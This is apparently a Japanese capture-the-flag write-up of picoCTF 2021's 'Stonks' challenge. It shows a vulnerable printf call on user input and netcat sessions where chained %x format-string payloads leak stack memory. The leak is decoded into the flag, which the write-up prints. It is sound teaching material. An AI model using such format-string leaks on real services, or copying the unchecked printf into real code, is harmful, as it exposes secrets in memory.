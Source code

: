 # Stonks:Binary Exploitation

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! 
\[vuln.c](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202021/Stonks/vuln.c) `nc mercury.picoctf.net 33411`

# Solution

とりあえずプロンプトに`nc mercury.picoctf.net 33411`をなげてみる。
```
$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
1
Buying stonks with token:
1
Portfolio as of Fri Apr 26 02:07:58 UTC 2024


1 shares of VP
2 shares of YCWC
14 shares of VJMP
5 shares of NZIO
44 shares of SFO
87 shares of YR
154 shares of ZRZ
796 shares of CIJD
5 shares of EXT
Goodbye!
```
株を買うor状態を見ることができるらしい。添付のプログラムを見てみると、
flagはapi_bufに格納されているっぽい。それから以下の部分で何かしらできそう。
```
	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API
 ```
 user_bufを表示してくれるみたいなので、とりあえずAPI tokenを聞かれるところで`%x`を入力してみる。と、なんか出てきた。
 ```
 Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9e4d3f0
Portfolio as of Fri Apr 26 02:13:52 UTC 2024


1 shares of SSY
10 shares of QTK
2 shares of VMZ
90 shares of V
360 shares of H
141 shares of JM
38 shares of THL
1180 shares of WCF
Goodbye!
```
`%x`をたくさん並べてみればflagが見られるかも。
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
95843b0804b00080489c3f7f17d80ffffffff19582160f7f25110f7f17dc7095831801958439095843b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffe5007df7f52af8f7f254401ec2430010f7db4ce9
Portfolio as of Fri Apr 26 01:54:28 UTC 2024


1 shares of LV
1 shares of WD
27 shares of E
188 shares of OXJ
70 shares of AC
1189 shares of QYXJ
Goodbye
```
出てきた怪しげな謎文字列をhex→UTF-8にすると、\
![image.png](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202021/Stonks/image/capture.png)
\4文字ずつ逆になっているflag(リトルエンディアンで記述されている)が出てきたので、並べ替える。

`picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`

ちなみに、Format String Attack(書式文字列攻撃)という、printf()などの関数の引数の特性を利用した攻撃方法らしい。
